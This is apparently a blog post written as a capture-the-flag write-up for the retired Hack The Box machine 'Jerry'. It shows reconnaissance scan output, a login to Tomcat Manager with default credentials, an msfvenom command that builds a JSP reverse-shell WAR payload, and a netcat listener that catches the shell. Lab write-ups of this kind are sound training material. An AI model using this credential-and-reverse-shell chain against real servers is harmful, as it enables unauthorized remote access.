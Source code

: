 ```yaml
---
layout:     post
title:      Hackthebox Notes Jerry Pwned
date:       2021-01-24
summary:    Run against Jerry machine on Hackthebox.eu
categories: CTF
thumbnail: cogs
tags:
 - CTF
 - Hackthebox
 - Owned
---
```


-Installed AutoRecon at the advisement of the guys in the TryHackMe Discord.  <br>
-Ran AutoRecon against target host 10.10.10.95<br>

Gobuster:
{% highlight ruby %}
SCAN OUTPUT
/aux (Status: 200) [Size: 0]
/docs (Status: 302) [Size: 0]
/examples (Status: 302) [Size: 0]
/favicon.ico (Status: 200) [Size: 21630]
/host-manager (Status: 302) [Size: 0]
/index.jsp (Status: 200) [Size: 11398]
/lpt1 (Status: 200) [Size: 0]
/lpt2 (Status: 200) [Size: 0]
/manager (Status: 302) [Size: 0]
/prn (Status: 200) [Size: 0]
{% endhighlight %}

Nikto:
{% highlight ruby %}
SCAN OUTPUT
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2021-01-23 21:34:02 (GMT-6)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7968 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2021-01-23 21:43:01 (GMT-6) (539 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endhighlight %}

Nmap:
{% highlight ruby %}
SCAN OUTPUT
# Nmap 7.91 scan initiated Sat Jan 23 21:33:45 2021 as: nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oN /home/cpardue/Boxes/jerry/results/10.10.10.95/scans/_full_tcp_nmap.txt -oX /home/cpardue/Boxes/jerry/results/10.10.10.95/scans/xml/_full_tcp_nmap.xml 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.055s latency).
Scanned at 2021-01-23 21:33:45 CST for 115s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 23 21:35:40 2021 -- 1 IP address (1 host up) scanned in 115.20 seconds
{% endhighlight %}

-Visited webserver in browser<br>
-Checked Manager App at /manager/html<br>
-Is a login page<br>
-Looked up and tried default tomcat::s3cret creds<br>
-Logged in, successfully
<br>-Generated msfvenom payload with 
{% highlight ruby %}
sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.xx LPORT=4445 -f war > reverse.war  
{% endhighlight %}
<br>-uploaded via Browse & Upload buttons
<br>-started local netcat shell as 
{% highlight ruby %}
nc -nlvp 4445
{% endhighlight %}
<br>-clicked link in server
<br>-payload reached back out to netcat shell
<br>-cd'ed to C:\Users\Administrator\Desktop via cli and read flag

<br>Overall this machine was a bit boring, but it's a retired machine and was randomly selected based on being an Easy rating, so there you go.  
